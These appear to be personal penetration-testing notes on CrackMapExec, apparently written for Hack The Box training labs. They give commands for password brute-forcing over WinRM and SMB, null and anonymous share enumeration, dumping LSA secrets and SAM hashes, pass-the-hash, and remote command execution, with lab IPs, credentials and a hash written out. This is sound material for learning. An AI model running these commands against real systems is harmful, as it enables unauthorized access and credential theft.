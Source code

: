 # CrackMapExec

### install

```
sudo apt install snapd
sudo snap install crackmapexec
```

### CrackMapExec Protocol-Specific Help

```shell-session
crackmapexec smb -h
```

### CrackMapExec Usage

```shell-session
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

```shell-session
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

```shell-session
WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

### Support Protocols

* [winrm](app://obsidian.md/WinRM%20Attacks)
* [ftp](app://obsidian.md/FTP%20Attack)
* ldap
* [smb](app://obsidian.md/SMB%20Attack)
* [mssql](app://obsidian.md/MSSQL%20Attacks)
* rdp
* [ssh](app://obsidian.md/SSH%20Attack)

## SMB

```
crackmapexec smb 10.10.11.174
```

**Null Authentication**

```
crackmapexec smb 10.10.11.174 --shares -u "" -p ""
```

**Anonymous Authentication**

* put any value in the user field

```
crackmapexec smb 10.10.11.174 --shares -u "fwewfawef" -p ""
```

**Login with username and password**

```
crackmapexec smb 10.10.11.174 --shares -d support -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

## Remote Dumping & LSA Secrets Considerations

* [CrackMapExec](app://obsidian.md/CrackMapExec)

```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

**Pass the Hash with CrackMapExec**

```shell-session
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

**CrackMapExec - Command Execution**

```shell-session
crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

## winrm

```
crackmapexec winrm 10.129.202.136 -u username.list -p password.list
```
